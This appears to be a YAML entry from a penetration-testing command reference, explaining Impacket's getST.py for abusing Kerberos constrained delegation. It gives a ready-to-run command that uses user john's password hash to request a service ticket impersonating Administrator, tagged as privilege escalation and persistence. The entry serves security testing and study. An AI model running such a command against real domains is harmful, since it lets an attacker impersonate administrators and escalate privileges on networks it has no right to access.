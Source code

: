 ```yaml
---
description: |
  Impacket's getST.py will request a Service Ticket and save it as ccache. If the account has constrained delegation privileges, you can use the `-impersonate` flag to request a ticket on behalf of another user. The following command will impersonate the Administrator account using the hashed password of user `john` and request a Service Ticket on its behalf for the `www` service on host `server01.test.local`.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Service: www

  	Host Name: server01.test.local

  	Username: john

  	Hash: :2a3de7fe356ee524cc9f3d579f2e0aa7

  	Impersonated User: Administrator

command: |
  python3 getST.py -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7 -spn www/server01.test.local -dc-ip 10.10.10.1 -impersonate Administrator test.local/john
items:
  - Hash
  - Username
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - PrivEsc
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py
  - http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html
---
```

